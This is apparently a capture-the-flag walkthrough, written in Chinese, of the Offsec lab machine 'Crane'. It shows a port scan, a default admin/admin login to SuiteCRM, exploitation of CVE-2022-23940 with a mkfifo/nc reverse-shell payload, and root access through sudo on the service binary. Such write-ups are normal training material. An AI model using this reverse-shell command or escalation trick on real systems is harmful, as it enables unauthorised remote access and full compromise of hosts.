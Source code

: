 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Crane
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.146 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.146:22
Open 192.168.219.146:80
Open 192.168.219.146:3306
Open 192.168.219.146:33060

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp  open  mysql   syn-ack MySQL (unauthorized)
33060/tcp open  mysqlx? syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

查看`192.168.219.146`可以找到一個login，可利用`admin/admin`登入，查看`http://192.168.219.146/index.php?module=Home&action=About`可以看到版本為`Version 7.12.3 `

![Crane_1.png](picture/Crane_1.png)

google搜尋可以找到[CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)用它但經過重重困難，要使用[pyenv](https://www.kali.org/docs/general-use/using-eol-python-versions/)來切成python為`3.8.18`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ git clone https://github.com/manuelz120/CVE-2022-23940.git

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv install 3.8 

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv global 3.8.18
                                                 
┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv versions
  system
  2.7.18
* 3.8.18 (set by /home/kali/.pyenv/version)

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install -r "requirements.txt"

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install click

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install requests
```

開啟nc，使用自己的payload，他的不知道為啥不能用
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ python exploit.py -h http://192.168.219.146 -u admin -p admin -P "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.175 9001 >/tmp/f" 
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

等反彈，在`/var/www`可得local.txt
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@crane:/var/www$ cat local.txt
e75ef03130321e27dc70c8f654fa32b6
```

查看`sudo -l`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/service/#shell)，得到root在`/root`可得到proof.txt
```
www-data@crane:/tmp$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@crane:/tmp$ sudo /usr/sbin/service ../../bin/sh
# whoami
root
# cat proof.txt
6e7648e8e5e70387cede5159357f7f77
```
